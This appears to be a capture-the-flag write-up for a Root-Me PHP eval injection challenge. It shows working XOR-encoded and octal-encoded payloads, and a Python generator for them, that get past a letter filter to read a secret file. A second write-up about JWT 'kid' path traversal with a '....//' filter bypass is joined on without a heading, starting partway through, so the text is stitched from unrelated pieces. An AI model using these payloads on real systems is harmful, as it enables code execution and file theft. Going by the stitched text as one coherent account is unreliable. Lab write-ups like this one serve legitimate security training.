 
# PHP - Eval  ( Non-alphanumeric PHP code )

Challenge category : WEB-SERVER \
Difficulty : MEDIUM \
Links :  https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval / https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval

For this challenge there are 2 solutions , but in this writeup I will show only the first one 

Let's analyze the challenge  : 
```
Statement
Find a vulnerability in this service and exploit it.

Note : the flag is in .passwd file.
```
Source code : 
```php
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```
As the index says it should be a PHP calculator , but it uses the eval() function to do "calculations" and this makes it vulnerable to code injection 
![](./images/1.png)
![](./images/2.png)

We can enter numbers or special characters but not letters because the input is filtered by the preg_match() function : 
```php
 if(!preg_match('/[a-zA-Z`]/', $_POST['input']))
```

There are 2 ways to bypass this filter ( as mentioned above) , in this case we will have the eval() function perform XOR operations on special characters 
```
RAW   |  BINARY
/     =  00101111
            ⊕
_     =  01011111  

p     =  01110000

In PHP  XOR=^ so ('/' ^ '_')= 'p'

Example: 
p = ('/'^'_')
a = ('!'^'@')
s = ('('^'[')
s = ('('^'[')
w = ('('^'_')
d = ('$'^'@')

passwd   =  ('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@')
```
Let's try entering the string above into the input field

![](./images/3.png)

It returned `passwd` 

Now let's try reading the contents of the `.passwd` file (which contains the flag as mentioned in the challege description) \
To do this we need to convert the `file_get_contents('.passwd')` function to XOR operations , I wrote a python script (don't mind the not-so-clean code ) : 

```python
import re
charset = ['!','$','%','&','/','(',')','=','{','[',']','}',',',';','.',':','-','_','+','*','~','#','\'','@','<','>','|','?','^',' ']

plain_text="file_get_contents('.passwd')"
pt_dict=[*plain_text]
payload=f""
fnd=0
for letter in pt_dict:
    fnd=0
    if not re.match('[a-zA-Z]',letter):
        if letter == '\'' : 
            letter='\\\''
        if letter == '"' : 
            letter = '\\"'
        payload+=f"'{letter}'."
        continue
    for char1 in charset :
        if fnd:
            fnd=1
            break
        for char2 in charset:
            if ord(char1)^ord(char2)==ord(letter):
                #print (f"{letter} : ('{char1}'^'{char2}'). \n ")
                payload+=f"('{char1}'^'{char2}')."
                fnd=1
                break
        
print (payload)
```
The script output will be : `('&'^'@').(')'^'@').(','^'@').('%'^'@').'_'.('['^'<').('%'^'@').('/'^'[').'_'.('='^'^').('/'^'@').('.'^'@').('/'^'[').('%'^'@').('.'^'@').('/'^'[').('('^'[').'('.'\''.'.'.('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@').'\''.')'` \
Let's try entering the string above into the input field

![](./images/4.png)

As we can see the function is not executed but is printed , so let's try another way of executing a function : `(function)(arg)` so `(file_get_contents)(.passwd)`
```
(('&'^'@').(')'^'@').(','^'@').('%'^'@').'_'.('['^'<').('%'^'@').('/'^'[').'_'.('='^'^').('/'^'@').('.'^'@').('/'^'[').('%'^'@').('.'^'@').('/'^'[').('('^'['))('.'.('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@'))
```

![](./images/5.png)
Great ! it works. ✅


\ 
\
\
The other method is similar but uses octal encoding of characters, it is easier but I like more difficult methods 😜


```
 "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\56\160\141\163\163\167\144")
 ```






\
\
\
\
\
\
\

```
Cookie: session=eyJhbGciOiJIUzI1NiIsImtpZCI6ImI5MDFiYjI0LTcwMGItNGNjNi1hNzFhLWNiMjA3YWI2MTMxMyIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QiLCJpYXQiOjE2OTM3MjY5MTV9.GMHoWnEW4uwXc7bF7LwjsULTvbPG16CTm_KyjCp-Jfw
```
The server responds with a json 
```
{"Unauthorized":"You are not admin !"}
```
We try to decode the token from base64 (using https://jwt.io/#debugger-io):
![](/images/4.png)

The first attempt made was to try to crack the token signing key with HashCat or John , but unfortunately I did not get any results, so let's take a closer look at the decoded token and notice a parameter in the header : 
```
"kid": "b901bb24-700b-4cc6-a71a-cb207ab61313"
```

Kid stands for Key ID ( https://www.rfc-editor.org/rfc/rfc7515#section-4.1.4 ) \
```
4.1.4.  "kid" (Key ID) Header Parameter

   The "kid" (key ID) Header Parameter is a hint indicating which key
   was used to secure the JWS.  This parameter allows originators to
   explicitly signal a change of key to recipients.  The structure of
   the "kid" value is unspecified.  Its value MUST be a case-sensitive
   string.  Use of this Header Parameter is OPTIONAL.

   When used with a JWK, the "kid" value is used to match a JWK "kid"
   parameter value.
```
Let us try playing with the KID parameter and create a token by entering `test` in the KID parameter and `secret` for the token signature key
![](/images/5.png)

We send the request with the token modified with Burp's Repeater
![](/images/6.png)

and we notice that the KID is not stored in a database but retrieves a file in the path `keys/[KID_FILENAME]`,so test if the file containing the signature key is readable by going to  http://challenge01.root-me.org:59081/keys/b901bb24-700b-4cc6-a71a-cb207ab61313 but we get 404 response 

At this point we know that the signature key is read from a file so let's try entering the path to a file we know : 
![](/images/2.png)

for example `static/challs/htmllecture.html`
![](/images/7.png)

let's try entering the file path with a Path Traversal `../static/challs/htmllecture.html` and as the signature key the contents of `htmllecture.html` so : `FLAG: ROUTEMI{c_le_premier_chall}`
![](/images/8.png)
![](/images/9.png)

There is a filter that removes `../` so we try to bypass it using `....//`
![](/images/10.png)
![](/images/11.png)

Great the game is done !!!









